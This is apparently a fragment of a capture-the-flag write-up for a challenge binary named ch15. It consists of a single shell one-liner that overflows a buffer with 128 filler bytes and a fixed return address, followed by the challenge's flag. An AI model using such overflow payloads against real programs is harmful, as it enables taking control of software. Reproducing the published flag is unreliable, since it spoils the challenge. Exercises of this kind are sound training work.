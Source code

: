 ### run shell command
```
(python -c 'print "A"*128 + "\x16\x85\x04\x08"'; cat) | ./ch15
```

flag: `B33r1sSoG0oD4y0urBr4iN`
